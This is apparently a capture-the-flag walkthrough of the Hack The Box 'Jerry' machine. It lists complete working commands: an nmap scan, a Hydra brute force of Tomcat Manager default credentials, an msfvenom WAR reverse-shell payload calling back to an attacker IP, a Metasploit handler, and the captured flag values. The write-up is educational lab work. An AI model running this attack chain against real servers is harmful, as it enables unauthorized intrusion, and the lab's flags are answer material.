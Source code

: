 # Jerry Machine Walkthrough

_Author: Davis Burrill_  
_Difficulty: Easy_  

---

## 🗂 Repository Structure
```
📆 Jerry
 ├ 🗂 nmap
 ┃ ┃ ├ 🕌 jeryy.nmap # Full nmap scan results
 ┃ ┃ ├ 🕌 jerry.gnmap # Greppable nmap output for quick analysis
 ┃ ┃ └ 🕌 jerry.xml # XML nmap output for detailed parsing
 ┃ 🗂 payloads
 ┃ ┃ └ 🕌 JerryExploit.war # WAR file payload for reverse shell
 ┃ 🗂 Screenshots
 ┃ ┃ ├ 🕌 hydra_img # Screenshot of Hydra brute force results
 ┃ ┃ ├ 🕌 shell_img  # Screenshot of Meterpreter shell access
 ┃ ┃ ├ 🕌 WAR_deployment_img  # Screenshot of WAR file deployment
 ┃ ┃ ├ 🕌 WAR_unzip_img  # Screenshot of unzipped WAR file contents
 ┃ ┃ └ 🕌 flag_img # Screenshot of captured flags
 └ 🗂 tmp # Temporary directory for extracted files
```

## **1⃣ Enumeration 🔍**

The first step in tackling the Jerry machine was performing an nmap scan to enumerate open ports and services:

```bash
nmap -sC -sV -A -Pn -oN jerry.nmap 10.10.10.95
```

### Findings:
- **Open Ports:** 8080
- **Services:** Apache Tomcat/Coyote JSP engine 1.1

The scan revealed that port 8080 was open and running a Tomcat server. This indicated the potential for accessing the Tomcat Manager application.

---

## **2⃣ Exploitation 💥**

### **Step 1: Initial Access**
Navigating to the target IP on port 8080 in Firefox:

```url
http://10.10.10.95:8080
```

I explored various links and buttons, eventually landing on the **Manager App** section, located at:

```url
http://10.10.10.95:8080/manager/html
```

### **Step 2: Credential Discovery**
Initial login attempts with default credentials like `admin:admin` failed. Using SecLists, I utilized a dictionary brute force attack to find valid credentials:

```bash
hydra -C ./Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
```

**Valid Credentials Found:**
- **Username:** tomcat
- **Password:** s3cret

### **Step 3: Uploading Exploit**
After logging in, I encountered a file upload section for WAR files. Using msfvenom, I created a WAR payload with a reverse shell:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=9001 -f war -o JerryExploit.war
```

I uploaded the `JerryExploit.war` file and deployed it. Initially, clicking the deployed payload resulted in a 404 error. I then unzipped the WAR file:

```bash
unzip JerryExploit.war -d tmp
```

Extracted the JSP file and navigated to:

```url
http://10.10.10.95:8080/tmp/nnqasoswoofs.jsp
```

This triggered the reverse shell.

---

## **3⃣ Privilege Escalation ⬆️**

### **Step 1: Gaining a Meterpreter Shell**
Using Metasploit, I started a multi/handler listener:

```bash
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST 10.10.14.5
set LPORT 9001
run -j
```

When the JSP file was accessed, it established a Meterpreter session. I confirmed the current user:

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### **Step 2: Navigating the File System**
Using the shell, I accessed the administrator’s desktop and found the flags:

```bash
shell
cd \users\administrator\desktop\flags
dir
type "2 for the price of 1.txt"
```

---

## **4⃣ Post-Exploitation & Flags 🏁**

### **Flags Found:**
- **User Flag:** 7004bcsef0f854e0fb401875f26ebd00
- **Root Flag:** 04a8b36e1545a455393d067e772fe90e

---

## **🔹 Key Takeaways**
- **Vulnerability Used:** Default credentials and deployment of malicious WAR files.
- **Important Techniques Learned:**
  - Using Hydra for credential brute-forcing.
  - Creating Java-based payloads with msfvenom.
  - Deploying and triggering WAR payloads on Tomcat Manager.

---

## **🔗 Links**
- [My Cybersecurity Blog](https://davisburrill.com)
- [Hack The Box](https://www.hackthebox.com)

Happy Hacking! 🚀

